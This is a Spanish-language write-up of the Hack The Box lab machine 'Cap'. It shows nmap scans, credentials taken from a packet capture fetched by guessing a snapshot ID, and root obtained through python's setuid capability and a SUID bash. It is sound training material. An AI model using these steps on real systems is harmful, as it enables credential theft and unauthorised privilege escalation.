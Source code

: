 ![imagen](https://user-images.githubusercontent.com/71317374/135714589-65382ded-013c-4b8a-962a-809113a2c459.png)

Cap es una máquina Linux de nivel fácil creada por [InfoSecJack](https://app.hackthebox.eu/users/52045). En ella hay que analizar unos paquetes con Wireshark y hacer uso de las [capabilities](https://www.incibe-cert.es/blog/linux-capabilities) para convertirnos en el grandioso root

Según la gente de Jak De Boxz, la máquina sería así:

![imagen](https://user-images.githubusercontent.com/71317374/135714734-01dba700-004e-4fb0-9e3b-151205a0b643.png)

Lo gracioso es que no hay que explotar ningún CVE.

1. [Reconocimiento inicial](#recon)
2. [Página web](#web)
3. [Analizando el .pcap con Wireshark](#pcap)
4. [Conseguimos root :D](#root)
# Reconocimiento inicial {#recon}

Como siempre, empezamos usando `nmap` para ver los puertos abiertos y conseguir posibles lugares por los que entrar.
```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:52:07 2021 as: nmap -p- --open -sS --min-rate 4000 -n -vv -oN scan 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up, received echo-reply ttl 63 (0.40s latency).
Scanned at 2021-10-02 13:52:07 CEST for 26s
Not shown: 41525 closed tcp ports (reset), 24007 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct  2 13:52:33 2021 -- 1 IP address (1 host up) scanned in 26.59 seconds
```

Hmm, puerto 21 abierto, podríamos intentar entrar como el usuario `anonymous`. De momento vamos a hacer un escaneo en profundidad...

```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:54:06 2021 as: nmap -sCV -p21,22,80 -oN targeted 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<fingerprint muy larga>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 13:56:17 2021 -- 1 IP address (1 host up) scanned in 131.53 seconds
```
| Puerto       | Servicio                              |
 |:-------      |:-----------------------------------   |
 | 21           | FTP   |
 | 22           | SSH, para obtener una shell segura    |
 | 80         | [Gunicorn](https://gunicorn.org/)   |                      |
 
 
# Página web {#web}
Entrar al FTP con las credenciales `anonymous: ` no funcionó, así que nos centraremos en la página web. Lo primero que nos encontramos al entrar es esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715330-d77dc314-8f5b-49dc-9f95-ac130ca1adbb.png)

La Security Snapshot parece interesante, pinchamos y tenemos esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715405-426ad6b1-c238-4d55-be90-2aaeecc76ee1.png)

Si le diéramos a Download, nos descargaría un archivo .pcap. También usa un número para identificar al archivo, así que tiene que haber un archivo 0, 1, etc.
Si probamos con el 0:

![imagen](https://user-images.githubusercontent.com/71317374/135715477-10ce33cb-c48e-46d0-98c0-2417e2c02f31.png)

Existe, así que lo descargamos y nos abrimos wireshark para ver si tuviera algo interesante, como unas credenciales.

# Analizando el .pcap con Wireshark {#pcap}

![imagen](https://user-images.githubusercontent.com/71317374/135715540-533be66c-d680-48b8-8eea-7ad67ea4130a.png)

Solamente al abrirlo hay algo interesante, un login en el FTP y unas credenciales :O, que serían `nathan:Buck3tH4TF0RM3!`, y tenemos un FTP y además un SSH abierto, igual las credenciales son válidas para ambos.
Si probamos a usarlas contra el SSH son válidas, así que estaríamos ya dentro y puedes recoger la user flag y llevártela a HTB para meterla por donde le quepa.

# Conseguimos root :D {#root}

Tras estar un rato enumerando, no saqué nada :/, hasta que encontré lo que eran las capabilities, una alternativa al SUID y al `sudo`: https://www.incibe-cert.es/blog/linux-capabilities(está también por arriba)
Para encontrar las capabilities de los archivos, hay que ejecutar el comando `getcap -r / 2>/dev/null`. la parte de 2>/dev/null es únicamente para enviar todos los errores al [/dev/null](https://linuxhint.com/what_is_dev_null/)

![imagen](https://user-images.githubusercontent.com/71317374/135716260-231d9332-d445-4156-ac37-562547482079.png)

Python con capability para cambiarte de usuario a voluntad, qué bien configurado...

```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('whoami')
root
0
```

Y así te convertirías en root, para salir de python y usar una bash como root podrías ejecutar lo siguiente: `os.system("chmod 4755 /bin/bash")` para asignarle el privilegio SUID(SetUID) a la /bin/bash.
Entonces, si ahora ejecutas `bash -p` te conviertes en root y puedes recoger tu premio en la meta, /root.

Ha sido una máquina divertida, que explota algo que no se suele mirar, las capabilities, que no sabía qué eran xD.

Si te ha gustado dame una estrellita, un follow o algo en mi [github](github.com/binlaab), que no te cuesta nada, dale.
